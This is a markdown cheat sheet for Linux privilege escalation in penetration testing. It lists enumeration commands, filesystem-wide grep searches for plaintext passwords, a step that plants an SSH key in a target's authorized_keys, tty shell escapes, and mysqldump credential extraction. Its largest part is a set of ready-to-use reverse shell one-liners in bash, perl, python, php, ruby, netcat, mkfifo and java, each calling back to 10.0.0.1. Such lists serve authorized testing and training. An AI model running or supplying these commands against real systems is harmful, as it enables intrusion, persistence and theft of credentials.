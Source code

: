 ### [Resources for Linux Privesc]
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS

https://github.com/diego-treitos/linux-smart-enumeration

https://github.com/lucyoa/kernel-exploits

### [Running your scripts]
```
chmod +x linpeas.sh
./linpeas > enumData.log

chmod +x ./lse.sh
./lse.sh -l2 >> enumData.log
```

### [Manual enumeration]
```
Enumerating linux OS
cat /etc/os-release

Who else logged in? 
who w last

Enumerating Kernel 
uname -a, env, whoami, history, pwd

Are you in sudoers file? 
sudo -l, cat /etc/sudoers

Other super users? grep -v -E "^#" /etc/passwd | awk -F: '$3 == 0 { print $1}'

Able to run the following binaries with current user permissions:
find / -perm -u=s 2>/dev/null

Find files with SUID set
find . -perm /4000 

sudo -l
```

Processes:
top

https://raw.githubusercontent.com/carlospolop/linux-privilege-escalation-awsome-script/master/linpeas.sh
https://github.com/1N3/PrivEsc/tree/master/linux/scripts

Enumeration of plaintext password
grep -rnw '/' -ie 'pass' --color=always
grep -rnw '/' -ie 'DB_PASS' --color=always
grep -rnw '/' -ie 'DB_PASSWORD' --color=always
grep -rnw '/' -ie 'DB_USER' --color=always

### [Generating Public Keys and Xfering to your target]
```
1. ssh-keygen to create your paired keys (private + public)
2. cat your key.pub and copy and paste the public key data over to the host's authorized keys in /home/username/.ssh/authorized_keys
3. ssh into the box using your private key ssh -i privatekey username@IP
```

### [tty shell]
```
python -c 'import pty; pty.spawn("/bin/sh")'
echo os.system('/bin/bash')
/bin/sh -i
perl —e 'exec "/bin/sh";'
perl: exec "/bin/sh";
ruby: exec "/bin/sh"
lua: os.execute('/bin/sh')
(From within IRB)
exec "/bin/sh"
(From within vi)
:!bash
(From within vi)
:set shell=/bin/bash:shell
(From within nmap)
!sh
```
## [reverse TCP Shell's]

#### bash
```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

### perl
```
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### python
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### php
```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### ruby
```
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### Netcat
```
nc -e /bin/sh 10.0.0.1 1234
```

### mkfifo
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

### java
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

### [SCP Transfer]
```
Local to Remote
scp file.txt username@IP:/remote/directory
scp -i private_key file.txt username@IP:/remote/directory
(Specify Port)
scp -P 2222 file username@IP:/remote/directory


remote to local
scp file.txt file.txt username@IP:/local/directory
scp -i private_key file.txt username@IP:/local/directory
(Moving a folder)
scp -r foldername username@IP:/local/directory
(Specify Port)
scp -P 2222 file username@IP:/local/directory
```
### [Extracting Creds from mysql using mysqldump util]
```
Local
mysqldump -u mysql_username -ppassword Database_Name
mysqldump -u mysql_username -ppassword Database table_name

Remotely
mysqldump -h IP -P PORT -u mysql_username -ppassword Database_Name
mysqldump -h IP -P PORT -u mysql_username -ppassword Database_Name Table_Name
```

### [Abusing PATH]
```
export PATH=/location/to/redirection/execution:$PATH
```
More information regarding abusing PATH
https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/

Source:
http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
